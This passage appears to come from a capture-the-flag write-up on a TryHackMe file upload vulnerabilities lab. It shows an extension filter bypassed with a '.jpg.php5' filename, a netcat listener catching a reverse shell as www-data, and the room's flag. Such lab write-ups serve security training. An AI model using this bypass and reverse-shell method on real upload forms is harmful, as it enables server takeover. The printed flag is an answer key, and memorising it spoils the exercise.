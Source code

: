 ```
ACCEPT FILE FROM THE USER -- SAVE FILENAME IN VARIABLE userInput
IF STRING ".jpg" IS IN VARIABLE userInput:
    SAVE THE FILE
ELSE:
    RETURN ERROR MESSAGE
```

When we try to upload our file we get a success message. Navigating to the `/uploads` directory confirms that the payload was successfully uploaded:

![](https://i.imgur.com/K55eu9o.png)

Activating it, we receive our shell:

![](https://i.imgur.com/VVAKZfw.png)

This is by no means an exhaustive list of upload vulnerabilities related to file extensions. As with everything in hacking, we are looking to exploit flaws in code that others have written; this code may very well be uniquely written for the task at hand. This is the really important point to take away from this task: there are a million different ways to implement the same feature when it comes to programming -- your exploitation must be tailored to the filter at hand. The key to bypassing any kind of server side filter is to enumerate and see what is allowed, as well as what is blocked; then try to craft a payload which can pass the criteria the filter is looking for.

Now your turn. You know the drill by now -- figure out and bypass the filter to upload and activate a shell. Your flag is in `/var/www/`. The site you're accessing is `annex.uploadvulns.thm`.

Be aware that this task has also implemented a randomised naming scheme for the first time. For now you shouldn't have any trouble finding your shell, but be aware that directories will not always be indexable...

[http://annex.uploadvulns.thm/privacy/](http://annex.uploadvulns.thm/privacy/)

[annex.uploadvulns.thm/privacy/2020-11-16-20-11-29-php-reverse-shell.jpg.php5](annex.uploadvulns.thm/privacy/2020-11-16-20-11-29-php-reverse-shell.jpg.php5)

```
kali@kali:~/CTFs/tryhackme/Upload Vulnerabilities$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.251.9 34054
Linux a2b9a5609bd8 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:11:44 up 59 min,  0 users,  load average: 0.00, 0.00, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /var/www
$ ls
flag.txt
html
$ cat flag.txt
THM{MGEyYzJiYmI3ODIyM2FlNTNkNjZjYjFl}
```

What is the flag in /var/www/?
